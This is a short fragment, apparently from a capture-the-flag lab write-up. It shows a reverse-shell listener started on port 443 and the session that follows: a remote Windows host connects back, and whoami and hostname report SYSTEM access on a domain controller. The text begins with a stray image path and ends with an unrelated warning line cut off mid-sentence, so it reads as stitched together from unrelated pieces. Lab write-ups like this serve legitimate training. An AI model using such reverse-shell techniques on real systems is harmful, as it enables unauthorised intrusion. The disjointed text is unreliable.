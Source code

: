 And I grabbed my shell:

```
hcue@pjsk:/opt/xc(master○) » ./xc -l -p 443                                                                                                                                                                                            1 ↵

		__  _____
		\ \/ / __|
		>  < (__
		/_/\_\___| by @xct_de
		           build: XBWQOEYPUG

2022/12/05 09:05:16 Listening on :443
2022/12/05 09:05:16 Waiting for connections...
2022/12/05 09:07:06 Connection from 10.129.254.249:63732
2022/12/05 09:07:06 Stream established

[*] Auto-Plugins:
[xc: C:\Windows\system32]: whoami
nt authority\system
[xc: C:\Windows\system32]: hostname
LOOKOUT-DC
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that